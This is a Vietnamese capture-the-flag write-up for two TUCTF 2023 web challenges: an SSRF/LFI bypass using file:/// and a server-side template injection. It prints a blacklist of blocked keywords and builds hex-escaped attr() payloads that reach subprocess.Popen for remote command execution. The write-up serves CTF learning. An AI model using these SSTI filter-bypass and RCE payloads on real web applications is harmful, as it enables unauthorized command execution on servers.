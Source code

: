 ```yaml
---
title: Write-Up TUCTF 2023
date: 2023-12-3 7:55:00 +0700
categories: [CTF, TUCTF-2023, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
pin: true
---
```


# PHP-Practise

vì bài này mình không kịp làm lại để lấy ảnh, nên mình sẽ dùng tạm những hình mình cap lại trong quá trình giải để giải thích.

- Về cơ bản thì đây chỉ là 1 web dùng để lấy dữ liệu, mình đã test qua và phát hiện được file:/// là bypass filter ssrf.
- mình dùng file:///var/www/html/display.php để lấy đc source code của file display , tuy nhiên cũng không khai thác được gì mấy, và mình cũng tìm được trang này bị LFI

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled.png">
- Dựa vào hint của bài thì mình tìm các thư mục có thể dùng để dấu đi tập tin bí mật như robots.txt, .htaccess

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 1.png">

- Mình tìm được 1 thư mục có vẻ như là chứa flag của bài này

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 2.png">

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 3.png">

- Done, vì bài này mình không kịp làm lại để viết WU nên không thể viết chi tiết hơn được hic

# My First blog

- Bài này dẫn chúng ta đến 1 trang blog với 1 số chức năng như là tạo post, sửa post và xóa post, và sau khi test XXS không được thì mình nghĩ đến SSTI và test với chức năng tạo post và edit post như hình

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 4.png">

- Tuy nhiên có vẻ như không hoạt động 😀

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 5.png">

- Sau đó mình test thêm Edit nhưng cũng không được, tuy nhiên khi mình dùng chức năng xóa thì đã trigger được lỗi SSTI.

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 6.png">

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 7.png">

- Voila!!, lúc này mình tiếp tục thử dùng `{{().class}}`  để xem thì phát hiện 1 số filter rất KHÓ CHỊU!!

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 8.png">

- Và như bạn thấy ở dưới là những kí tự đã bị filter. tức là khi nó xuất hiện những chữ trong dấu * thì sẽ không dùng được.
**[‘.*config.*’, ‘.*class.*’, ‘.*request.*’, ‘.*self.*’, ‘.*global.*’, ‘.*getitem.*’, ‘.*base.*’, ‘.*os.*’, ‘.*mro.*’, ‘.*import.*’, ‘.*builtins.*’, ‘.*popen.*’, ‘.*read.*’, ‘.*write.*’, ‘.*system.*’, ‘.*eval.*’, ‘.*exec.*’, ‘.*\\+.*’, ‘.*\\..*’, ‘.*\\[.*’, ‘.*\\].*’, ‘.*\\_.*’]**

Vì thế nên mình sẽ dùng hàm attr(), nó sẽ dùng để thay thế cho thằng class bên dưới

```python
().__class__
```

Tương đương với

```python
()|attr('__class__')
```

Như bạn có thể thấy **class** hiện nằm trong một chuỗi, vì vậy ta có thể bypass được filter của bài này bằng cách dùng acsii

```python
()|attr('\x5f\x5f\x63lass\x5f\x5f')
```

- **`'\x5f'`** là biểu diễn của ký tự **`_`** trong ASCII.
- **`'\x63'`** là biểu diễn của ký tự **`c`** trong ASCII.
- …. tương tự

Vì thế, chúng ta có thể viết như thế này 

text: `**()|attr('__class__')|attr('__base__')**`

nó sẽ tương tự như

text: `().**__class__**.**__base__**`

- Việc bây giờ của ta là sẽ test và sử dụng SSTI để RCE , mình sẽ sử dụng payload bên dưới, tuy nhiên ở đây chúng ta có 2 vấn đề.
  
```python
{ { ( ).__class__.__base__.__subclasses__()[<index for subprocess.Popen>]('w h o a m i',sh3ll=T4ue,stdout=-1).communicate( ) } } 
```

( bạn xóa những kí tự thừa đi nhé vì github mình up raw lên nó bị filter shell :)
1. Dấu [ ] bị filter
2. Ta không biết index cụ thể của **subprocess.Popen**


- Để giải quyết vấn đề 1 ta sử dụng **`.getitem()`** thay vì trực tiếp sử dụng dấu **`[]`** để truy cập phần tử của danh sách. Vậy nên câu lệnh trên sẽ thành

  
```python
{ { ( ).__class__.__base__.__subclasses__().__getitem__(<index for subprocess.Popen>)('w h o a m i',sh3ll=T4ue,stdout=-1).communicate( ) } } 
```

- Đối với vấn đề 2, sau 1 lúc search document thì mình biết được rằng Popen in **subclass**(). thường sử dụng payload sau `().**__class__**.**__base__**.**__subclasses__**()`

Vậy nên payload cuối cùng của ta sẽ là 
```python
{ { ( ).__class__.__base__.__subclasses__().__getitem__().* * __class__ * * . * * __base__ * * . * * __subclasses__ * * ()('w h o a m i',sh3ll=T4ue,stdout=-1).communicate()}} 
```
// bỏ khoảng trắng đi nhé
Tuy nhiên ta phải chuyển nó sang như thế này để bypass filter
```python
{ { ( )| attr ('\x5f\x5f\x63lass\x5f\x5f')| attr('\x5f\x5f\x62ase\x5f\x5f')| attr('\x5f\x5fsub\x63lasses\x5f\x5f')( ) } }
```
- Tuy nhiên ta lại nhận được kết quả như hình

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 2.png">

- Đáng lí ra thì theo payload trên, ta sẽ phải nhận được thông tin về subclass, ví dụ như là

```python
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>...
```

- Sau 1 lúc mò mẫm thì có vẻ như là những kí tự nằm trong <> sẽ bị render thành rỗng … như ảnh, vì vậy mình sẽ add thêm **.replace(’<’) thành ‘’**
```python
{ { ( )|attr ('\x5f\x5f\x63lass\x5f\x5f')| attr('\x5f\x5f\x62ase\x5f\x5f')| attr('\x5f\x5fsub\x63lasses\x5f\x5f')()|attr('\x5f\x5frepr\x5f\x5f')()|attr('replace')('<','') } }
```
- P/S: Thật ra cũng không cần thiết vì thật ra thằng trình duyệt nó chỉ cố render bọn class thành html elements, ta chỉ cần view-source là có thể thấy được như hình dưới hahaha

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 9.png">

- Lúc này ta viết script để tìm được index của nó là 372, vậy payload cuối cùng của ta sẽ là
```python
{ { ().__class__.__base__.__subclasses__().__getitem__(372)('whoami',sh3ll=T4ue,stdout=-1).communicate( ) } }`
```
- Để tránh bị filter
```python
{ { ()|attr('\x5f\x5f\x63lass\x5f\x5f')|attr('\x5f\x5f\x62ase\x5f\x5f')|attr('\x5f\x5fsub\x63lasses\x5f\x5f')()|attr('\x5f\x5f\x67etitem\x5f\x5f')(372)('whoami',sh3ll=T4ue,stdout=-1)|attr('communicate')( ) } }
```
<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 10.png">

- Bạn chỉ cần chạy 1 lệnh RCE bất kì là có thể xuất hiện flag
